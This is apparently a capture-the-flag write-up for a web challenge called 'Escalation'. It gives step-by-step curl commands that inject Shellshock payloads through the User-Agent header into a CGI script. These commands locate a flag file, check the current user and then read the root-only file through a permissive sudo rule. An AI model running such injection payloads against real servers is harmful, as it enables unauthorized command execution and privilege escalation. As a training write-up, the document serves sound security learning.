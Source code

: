 # Escalation

- **Category**: Web
- **Appearance conditions**: after solve Challenge `2014-6271`. 
- **Solution**: privillege escalation with inproper sudo command.

---
| Step | Screenshot |
|------|------------|
|1. Open the challenge and found the message *Do you find rootflag?*|<img width="505" height="241" alt="image" src="https://github.com/user-attachments/assets/fa0c75a4-4f1d-4ea6-b371-18752414068e" />|
|2. Try `find` *rootflag* in this server following the command.<br>`curl  -A "(){ :;}; /usr/bin/find / -type f -name *rootflag* 2>/dev/null " -b "your_session_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>Then found the *rootflag*.|<img width="826" height="358" alt="image" src="https://github.com/user-attachments/assets/d9f4c694-d18d-4d2a-abd2-3e7a8f172c48" />|
|3. Try show the file permission following the command.<br>`curl  -A "(){ :;}; /usr/bin/ls -la /tmp/hidden/access_denied/busted/rootflag.txt" -b "your_session_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>You are need root permission to read this file.<br>First, look at login user now, command `id`<br>`curl -A "(){ :; }; /usr/bin/id " -b "session=your_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>It seem www-data, www-data is low privilleged user. |<img width="1888" height="764" alt="image" src="https://github.com/user-attachments/assets/6f6ed8e6-fa1d-4803-936f-8a6d8134099d" />|
|4. How to get root permission?<br>Though, there are many way to get root permission, This time, inspect [sudo](https://linuc.org/study/column/4047/). `sudo` is we should investigate first because it is relatively easy way to escalate permission. ||
|5. Try `sudo -l` command. option `-l` is display allowed programs with root privilleged to ordinary users.<br>/usr/bin/cat is allowed.|<img width="1897" height="914" alt="image" src="https://github.com/user-attachments/assets/806ddcc7-af5c-48d6-8692-98418e7784ee" />|
|6. Now that, read *rootflag* with `cat` command with `sudo`.<br>`curl -A "(){ :; }; /usr/bin/sudo /usr/bin/cat /tmp/hidden/access_denied/busted/rootflag.txt" -b "sessio
n=your_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br><br>🎊 Congratulations!|<img width="1878" height="750" alt="image" src="https://github.com/user-attachments/assets/3df56fce-ccd6-4f42-83c6-2661eba4f3ff" />|
